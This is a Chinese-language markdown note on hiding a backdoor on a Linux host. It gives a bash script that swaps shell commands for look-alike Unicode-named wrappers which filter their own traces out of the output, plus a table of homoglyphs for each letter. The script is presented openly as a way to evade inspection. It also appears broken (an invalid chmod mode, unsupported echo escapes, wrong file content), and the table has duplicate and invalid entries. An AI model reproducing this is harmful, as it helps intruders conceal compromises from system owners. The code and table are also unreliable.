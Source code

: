 # Shell同形异义字取代命令

在做安全植入后门的时候经常遇到Shell当中经常有替换命令并且不让进程查到的需求，使用下面的同形异义字去替换真实命令就查不到了，给输出的内容进行删除。

可以躲过检查。

## 脚本

```bash
#!/bin/sh

# 设置特殊字符
s=$(echo -e "\x{455}")
n=$(echo -e "\x{578}")

# 备份原始命令到变量$o中
o="$1"
shift

# 修改命令内容并写入文件$o
echo "#!/bin/sh" > "$o"
echo "$o" | sed -e "s/\([ltp]\)s/\1$s/g" -e "s/fin/fi$n/g" >> "$o"
echo "\$* | grep -vE \"[$s-$n]|grep|177\"" >> "$o"

# 设置文件权限
chmod 493 "$o"
```

## 字符相似度测试脚本

右键下载 [shell-character-check.sh](./Shell同形异义字取代命令.assets/shell-character-check.sh)

> 检验网站 [https://www.rapidtables.org/zh-CN/code/text/unicode-characters.html](https://www.rapidtables.org/zh-CN/code/text/unicode-characters.html)
>
> Unicode 符号表 [https://symbl.cc/cn/unicode-table/](https://symbl.cc/cn/unicode-table/)





备注：本脚本由AI生成，或许可能有错误，仅提供参考，核对后使用。



![image-20240625160021584](./Shell同形异义字取代命令.assets/image-20240625160021584.png)





## 同形异义字代码表

下面是从小写字母 'a' 到 'z' 的列表，使用Markdown格式排列

| 字符 | 同形异义字 | Unicode 编码 | Unicode字符类 |
| ---- | ---------- | ------------ | ------------- |
| a    | а          | \u0430       | 西里尔字母    |
| a    | ɑ          | \u0251       | 拉丁字母      |
| b    | Ь          | \u042c       | 西里尔字母    |
| b    | Ƅ          | \u0184       | 拉丁字母      |
| c    | ϲ          | \u03f2       | 希腊字母      |
| c    | с          | \u0441       | 西里尔字母    |
| d    | ԁ          | \u0501       | 西里尔字母    |
| d    | đ          | \u0111       | 拉丁字母      |
| e    | е          | \u0435       | 西里尔字母    |
| e    | é          | \u00e9       | 拉丁字母      |
| f    | ſ          | \u017f       | 拉丁字母      |
| f    | ƒ          | \u0192       | 拉丁字母      |
| g    | ց          | \u0581       | 亚美尼亚字母  |
| g    | ɡ          | \u0261       | 拉丁字母      |
| h    | һ          | \u04bb       | 西里尔字母    |
| h    | ħ          | \u0127       | 拉丁字母      |
| i    | і          | \u0456       | 西里尔字母    |
| i    | í          | \u00ed       | 拉丁字母      |
| j    | ј          | \u0458       | 西里尔字母    |
| j    | ʝ          | \u029d       | 拉丁字母      |
| k    | κ          | \u03ba       | 希腊字母      |
| k    | ĸ          | \u0138       | 拉丁字母      |
| l    | ℓ          | \u2113       | 拉丁字母      |
| l    | ɭ          | \u026d       | 拉丁字母      |
| m    | м          | \u043c       | 西里尔字母    |
| m    | ɱ          | \u0271       | 拉丁字母      |
| n    | ո          | \u0578       | 亚美尼亚字母  |
| n    | ŋ          | \u014b       | 拉丁字母      |
| o    | о          | \u043e       | 西里尔字母    |
| o    | օ          | \u0585       | 亚美尼亚字母  |
| o    | ο          | \u03bf       | 希腊字母      |
| p    | р          | \u0440       | 西里尔字母    |
| p    | ρ          | \u03c1       | 希腊字母      |
| q    | ԛ          | \u051b       | 西里尔字母    |
| q    | ʠ          | \u02a0       | 拉丁字母      |
| r    | г          | \u0433       | 西里尔字母    |
| r    | ɾ          | \u027e       | 拉丁字母      |
| s    | ѕ          | \u0455       | 西里尔字母    |
| s    | ѕ          | \u0455       | 西里尔字母    |
| t    | т          | \u0442       | 西里尔字母    |
| t    | τ          | \u03c4       | 希腊字母      |
| u    | υ          | \u03c5       | 希腊字母      |
| u    | μ          | \u03bc       | 希腊字母      |
| v    | ν          | \u03bd       | 希腊字母      |
| v    | ν          | \u03bd       | 希腊字母      |
| w    | ѡ          | \u0461       | 西里尔字母    |
| w    | ŵ          | \u0175       | 拉丁字母      |
| x    | х          | \u0445       | 西里尔字母    |
| x    | χ          | \u03c7       | 希腊字母      |
| y    | у          | \u0443       | 西里尔字母    |
| y    | у          | \u0443       | 西里尔字母    |
| z    | Հ          | \u0530       | 亚美尼亚字母  |
| z    | ʑ          | \u0291       | 拉丁字母      |

